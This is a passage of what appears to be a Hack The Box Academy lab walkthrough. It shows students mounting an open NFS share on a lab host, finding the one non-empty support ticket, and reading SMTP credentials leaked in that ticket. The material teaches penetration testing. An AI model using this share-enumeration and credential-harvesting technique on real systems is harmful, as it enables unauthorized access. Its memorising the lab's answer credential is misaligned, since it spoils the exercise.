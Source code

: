 Code: shell

```shell
sudo mkdir NFS && sudo mount -t nfs STMIP:/TechSupport ./NFS
```

```
┌─[eu-academy-1]─[10.10.14.45]─[htb-ac413848@htb-tl1xuueppb]─[~]
└──╼ [★]$ sudo mkdir NFS && sudo mount -t nfs 10.129.202.41:/TechSupport ./NFS
```

When viewing the data size of the files within the share, students will find out that all of them are empty except for "ticket4238791283782.txt":

Code: shell

```shell
sudo ls -lA NFS/
```

```
┌─[eu-academy-1]─[10.10.14.45]─[htb-ac413848@htb-tl1xuueppb]─[~]
└──╼ [★]$ sudo ls -lA NFS/

total 4
-rwx------ 1 nobody 4294967294    0 Nov 10  2021 ticket4238791283649.txt
-rwx------ 1 nobody 4294967294    0 Nov 10  2021 ticket4238791283650.txt
-rwx------ 1 nobody 4294967294    0 Nov 10  2021 ticket4238791283651.txt
<SNIP>
-rwx------ 1 nobody 4294967294 1305 Nov 10  2021 ticket4238791283782.txt
<SNIP>
```

When viewing the contents of the file, students will attain the credentials `alex:lol123!mD`

Code: shell

```shell
sudo cat NFS/ticket4238791283782.txt
```

```
┌─[eu-academy-1]─[10.10.14.45]─[htb-ac413848@htb-tl1xuueppb]─[~]
└──╼ [★]$ sudo cat NFS/ticket4238791283782.txt

Conversation with InlaneFreight Ltd

Started on November 10, 2021 at 01:27 PM London time GMT (GMT+0200)
---
01:27 PM | Operator: Hello,. 
 
So what brings you here today?
01:27 PM | alex: hello
01:27 PM | Operator: Hey alex!
01:27 PM | Operator: What do you need help with?
01:36 PM | alex: I run into an issue with the web config file on the system for the smtp server. do you mind to take a look at the config?
01:38 PM | Operator: Of course
01:42 PM | alex: here it is:

 1smtp {
 2    host=smtp.web.dev.inlanefreight.htb
 3    #port=25
 4    ssl=true
 5    user="alex"
 6    password="lol123!mD"
 7    from="alex.g@web.dev.inlanefreight.htb"
 8}
<SNIP>
```

